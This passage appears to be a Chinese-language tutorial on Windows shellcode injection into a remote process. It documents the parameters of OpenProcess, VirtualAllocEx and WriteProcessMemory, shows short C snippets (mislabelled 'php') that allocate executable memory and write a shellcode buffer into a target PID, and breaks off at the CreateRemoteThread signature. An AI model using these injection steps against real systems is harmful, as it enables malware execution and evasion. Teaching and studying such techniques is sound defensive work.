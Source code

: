 -   dwDesiredAccess：一个或多个进程访问权限
-   bInheritHandle：是否继承句柄
-   dwProcessId：进程的标识符

```php
printf("Injecting to PID: %i", atoi(argv[1]));
processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
```

2、VirtualAllocEx

```php
LPVOID VirtualAllocEx(
  [in]           HANDLE hProcess,
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

-   hProcess：进程的句柄。该函数在该进程的虚拟地址空间内分配内存，句柄必须具有**PROCESS\_VM\_OPERATION**访问权限
-   lpAddress：保留页面的内存地址；一般用NULL自动分配
-   dwSize：要分配的内存区域的大小，以字节为单位
-   flAllocationType：内存分配的类型
-   flProtect：该内存的初始保护属性

```php
remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE)
```

3、WriteProcessMemory

```php
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);
```

-   hProcess：要修改的进程内存的句柄。句柄必须拥有对进程的PROCESS\_VM\_WRITE和PROCESS\_VM\_OPERATION访问权限
-   lpBaseAddress：要写的内存首地址
-   lpBuffer：指向要写的数据的指针
-   nSize：要写入的字节数
-   lpNumberOfBytesWritten：指向一个变量的指针，该变量接收传输到指定进程的字节数。该参数是可选的。如果*lpNumberOfBytesWritten*存在**空**，则忽略该参数。

```php
WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
```

4、CreateRemoteThread

```php
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```
